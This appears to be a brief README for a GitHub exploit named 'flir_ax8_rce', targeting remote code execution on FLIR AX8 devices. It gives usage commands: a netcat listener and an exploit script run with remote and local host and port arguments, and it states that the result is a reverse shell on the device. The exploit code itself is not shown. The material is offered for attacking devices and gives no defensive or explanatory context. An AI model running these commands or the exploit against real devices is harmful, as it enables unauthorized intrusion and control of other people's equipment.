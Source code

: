 # flir_ax8_rce

attack execute:
  nc -lp LPORT
  python3 exp.py --RHOST RHOST --RPORT RPORT --LHOST LHOST --LPORT LPORT

Then it will get the reverse shell of the device。


<img width="193" alt="1" src="https://user-images.githubusercontent.com/63924776/188060839-f4d34415-8d79-443c-bd70-c9a733eaacf4.PNG">
